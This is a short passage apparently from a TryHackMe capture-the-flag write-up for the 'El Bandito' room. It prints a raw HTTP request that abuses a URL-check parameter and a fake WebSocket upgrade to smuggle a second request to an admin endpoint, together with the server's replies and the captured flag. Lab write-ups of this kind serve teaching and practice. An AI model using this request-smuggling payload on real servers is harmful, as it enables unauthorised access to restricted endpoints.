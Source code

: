 ```bash
GET /isOnline?url=http://10.4.9.248:5555 HTTP/1.1
Host: bandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-WebSocket-Version: 13
Upgrade: WebSocket

GET /admin-flag HTTP/1.1
Host: bandito.thm:8080
```

REPLY

```bash
HTTP/1.1 101 
Server: nginx
Date: Sun, 25 May 2025 06:58:02 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 43
Date: Sun, 25 May 2025 06:58:02 GMT

THM{:::MY_DECLINATION:+62°_14\'_31.4'':::}
```

# Flag 2

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/EL%20Bandito%20(THM)/Images/image%20(5).png?raw=true)
